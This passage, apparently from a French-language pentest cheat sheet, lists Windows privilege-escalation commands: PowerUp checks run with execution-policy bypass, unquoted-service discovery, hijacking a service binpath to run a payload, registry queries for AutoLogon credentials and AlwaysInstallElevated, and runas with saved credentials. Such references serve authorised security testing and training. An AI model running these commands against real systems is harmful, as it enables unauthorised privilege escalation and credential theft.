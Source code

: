 ### PowerUp.ps1
| Commande | Description |
|----------|-------------|
| `powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"` | Vérifications complètes |
| `powershell -ep bypass -c ". .\PowerUp.ps1; Get-UnquotedService"` | Services non quotés |
| `powershell -ep bypass -c ". .\PowerUp.ps1; Get-ModifiableServiceFile"` | Fichiers de services modifiables |

---

## 🔑 3. Techniques d'escalade courantes

### Services mal configurés
| Technique | Commande |
|-----------|----------|
| **Services non quotés** | `wmic service get name,displayname,pathname,startmode \|findstr /i "Auto" \|findstr /i /v "C:\Windows\\" \|findstr /i /v """` |
| **Permissions de services** | `sc qc [service_name]` |
| **Modification de service** | `sc config [service_name] binpath= "C:\temp\payload.exe"` |
| **Redémarrage de service** | `sc stop [service_name]` puis `sc start [service_name]` |

### Tâches planifiées
| Commande | Description |
|----------|-------------|
| `schtasks /query /fo LIST /v` | Liste des tâches planifiées |
| `tasklist /SVC` | Services et processus |
| `wmic process list full` | Processus détaillés |

### Registre Windows
| Technique | Commande |
|-----------|----------|
| **AutoLogon credentials** | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` |
| **Programmes de démarrage** | `reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` |
| **Programmes de démarrage (machine)** | `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` |
| **AlwaysInstallElevated** | `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` |

---

## 🎯 4. Exploitation avec credentials trouvés

### Utilisation de runas
| Commande | Description |
|----------|-------------|
| `runas /user:administrator cmd` | Lancer cmd en tant qu'admin |
| `runas /user:domain\administrator cmd` | Avec domaine |
| `runas /savecred /user:administrator cmd` | Utiliser credentials sauvegardés |
